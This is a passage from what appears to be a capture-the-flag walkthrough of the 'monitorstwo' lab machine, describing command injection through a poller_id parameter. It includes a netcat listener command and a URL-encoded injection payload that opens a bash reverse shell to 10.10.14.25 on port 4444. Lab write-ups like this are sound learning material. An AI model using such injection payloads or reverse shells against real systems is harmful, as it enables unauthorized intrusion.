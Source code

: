 It works! Now, we try to fuzz the poller_id to see if it is vulnerable too.

![Texto alternativo](/assets/monitorstwo/Screenshot%202025-02-27%20164245.jpg)

Since it's vulnerable, we attempt to get a reverse shell. We start by setting up a listener on port 4444:

```bash
nc -lvnp 4444
```

Then, in poller_id, we input the following based on our IP and port:

```bash
1%3bbash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.25/4444+0>%261"
```
